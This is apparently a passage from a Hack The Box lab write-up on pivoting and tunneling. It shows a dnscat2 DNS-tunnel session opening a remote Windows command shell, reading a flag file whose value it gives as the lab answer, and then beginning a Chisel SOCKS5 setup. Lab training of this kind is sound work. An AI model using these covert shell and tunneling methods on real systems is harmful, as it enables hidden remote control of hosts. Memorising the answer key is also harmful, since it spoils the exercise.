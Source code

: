 With command `window -i 1` we can spawn a Windows CMD shell and execute commands.

```
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1> type C:\Users\htb-student\Documents\flag.txt
exec (OFFICEMANAGER) 1> type C:\Users\htb-student\Documents\flag.txt
AC@tinth3Tunnel
```

**Answer:** `AC@tinth3Tunnel`

---
## SOCKS5 Tunneling with Chisel
### Question:
![](./attachments/Pasted%20image%2020230222203347.png)

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ git clone https://github.com/jpillora/chisel.git
Cloning into 'chisel'...
remote: Enumerating objects: 2167, done.
remote: Counting objects: 100% (5/5), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 2167 (delta 0), reused 2 (delta 0), pack-reused 2162
Receiving objects: 100% (2167/2167), 3.46 MiB | 1.24 MiB/s, done.
Resolving deltas: 100% (1025/1025), done.

┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ cd chisel
```
